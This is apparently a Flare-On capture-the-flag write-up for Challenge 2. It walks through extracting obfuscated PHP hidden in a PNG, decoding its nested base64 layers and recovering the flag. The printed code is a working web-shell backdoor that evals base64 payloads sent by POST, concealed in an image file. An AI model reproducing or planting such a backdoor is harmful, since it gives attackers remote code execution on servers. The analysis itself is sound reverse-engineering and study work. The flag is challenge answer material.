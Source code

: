 # Challenge 2

In this challenge, we are given a web page. Inspecting `home.html`, we find nothing interesting. However, we run a simple strings on `img/flare-on.png` and we find the following suspicious php code (formatted for sanity)

```
<?php 
$terms = array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");
$order = array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);
$do_me = "";
for ($i = 0; $i < count($order); $i++) {
    $do_me = $do_me . $terms[$order[$i]];
}
eval($do_me); ?>
```

We run this with a PHP interpreter (I used [http://sandbox.onlinephpfunctions.com/]()) and we get the following error:

```
<br />
<b>Parse error</b>:  syntax error, unexpected ''aWYoaXNzZXQoJF9QT1NUWyJcOTdcN' (T_ENCAPSED_AND_WHITESPACE), expecting identifier (T_STRING) in <b>[...][...](1) : eval()'d code</b> on line <b>1</b><br />

```

That `aWYoaXNzZXQoJF9QT1NUWyJcOTdcN` string looks like base64. We dump out the contents by adding a `print($do_me)` before `eval($do_me)` to get the base64 encoded PHP code:

```
<?php $_ = \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));<br /> ?>
```

And the decoded code is as follows:

```
<?php if (isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) {
    eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
}

$code = base64_decode($_);
eval($code); ?>
```

The ` \97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D` is obviously an ASCII string. Doing some simple string tricks in Notepad++ (replacing all `'\\'` with `','`, then replacing `'x'` with `'0x'`) we get a string that can be copied into Python:

```
97,49,49,68,0x4F,84,116,0x68,97,0x74,0x44,0x4F,0x54,0x6A,97,0x76,0x61,0x35,0x63,0x72,97,0x70,0x41,84,0x66,0x6C,97,0x72,0x65,0x44,65,0x53,72,111,110,68,79,84,99,0x6F,0x6D
```

We decode the string in Python

```
In [6]: a = [97,49,49,68,0x4F,84,116,0x68,97,0x74,0x44,0x4F,0x54,0x6A,97,0x76,0x61,0x35,0x63,
0x72,97,0x70,0x41,84,0x66,0x6C,97,0x72,0x65,0x44,65,0x53,72,111,110,68,79,84,99,0x6F,0x6D]

In [7]: "".join([chr(c) for c in a])
Out[7]: 'a11DOTthatDOTjava5crapATflareDASHonDOTcom'
```

The flag is simply

```a11.that.java5crap@flare-on.com```